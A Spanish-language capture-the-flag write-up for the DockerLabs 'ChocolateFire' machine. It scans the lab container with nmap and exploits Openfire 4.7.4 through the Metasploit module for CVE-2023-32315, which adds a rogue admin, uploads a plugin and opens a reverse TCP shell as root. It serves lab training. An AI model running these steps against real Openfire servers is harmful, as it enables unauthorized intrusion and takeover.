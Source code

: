 # 🖥️ Writeup - ChocolateFire (Easy)

**Plataforma:** Dockerlabs   
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip chocolatefire.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh chocolatefire.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sC -sV -p5262,5269,7070,9090,5275 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 19:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65523 closed tcp ports (reset)
PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
5222/tcp open  jabber
5223/tcp open  ssl/hpvirtgrp?
5262/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5263/tcp open  ssl/unknown
5269/tcp open  xmpp           Wildfire XMPP Client
5270/tcp open  xmp?
5275/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp open  ssl/unknown
7070/tcp open  http           Jetty
7777/tcp open  socks5         (No authentication; connection failed)
9090/tcp open  http           Jetty

MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.53 seconds
```

El único puerto que expone un servicio web abierto es el `9090`.

Al acceder desde el navegador, encontramos un panel de `login` de `Openfire`, que además indica que la versión instalada es la `4.7.4`.

A continuación, abrimos `Metasploit` para comprobar si existe algún exploit compatible con esta versión.

# EXPLOTACIÓN

```bash
msfconsole -q
```

Tras realizar la búsqueda, seleccionamos el segundo exploit disponible.

```bash 
search openfire
```

Info:
```
Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/openfire_auth_bypass                     2008-11-10       excellent  Yes    Openfire Admin Console Authentication Bypass
   1    \_ target: Java Universal                                 .                .          .      .
   2    \_ target: Windows x86 (Native Payload)                   .                .          .      .
   3    \_ target: Linux x86 (Native Payload)                     .                .          .      .
   4  exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315  2023-05-26       excellent  Yes    Openfire authentication bypass with RCE plugin


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
```


```bash
use 4
show options
set LHOST <NUESTRA IP>
set RHOSTS 172.17.0.2
run
```
Info:
```
[*] Started reverse TCP handler on 10.0.4.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0byjr7g6fx8fi14pcejjlp50yi27.node0
[*] csrf=HPKXRCQQlxhVu4I
[*] Adding a new admin user.
[*] Logging in with admin user "aixjxwvim" and password "r0TLSO3xf".
[*] Upload and execute plugin "YUZXWL4DcGP3" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 172.17.0.2
[!] Plugin "YUZXWL4DcGP3" need manually clean-up via Openfire Admin console.
[!] Admin user "aixjxwvim" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (10.0.4.12:4444 -> 172.17.0.2:40304) at 2025-09-08 19:38:36 +0200

```

Al ejecutarlo, conseguimos abrir una `command shell` en la máquina víctima.

```bash
/bin/bash -i
root@39c37e58b12b:~# whoami
root
```

Ya somos root!